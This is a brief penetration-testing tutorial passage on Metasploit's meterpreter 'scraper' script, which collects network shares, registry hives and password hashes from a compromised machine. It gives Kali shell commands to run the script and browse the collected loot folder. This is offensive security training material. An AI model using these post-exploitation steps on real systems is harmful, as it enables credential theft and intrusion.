

scraper
Scraper
harvests system info including network shares, registry hives and password hashes
root@kali:/home/kali# cat /usr/share/metasploit-framework/scripts/meterpreter/scraper.rb -n #to see the commands executed
#by the script

meterpreter> run scraper

The informations will be collected in a folder with victim machine IP address and exploit date
root@kali:/home/kali# cd /root/.msf4/logs/scripts/scraper
root@kali:/home/kali# ls

root@kali:/home/kali# cd /root/.msf4/logs/scripts/scraper/192.168.1.119_20201022.562762885/
root@kali:/home/kali# ls
root@kali:/home/kali# cat network.txt

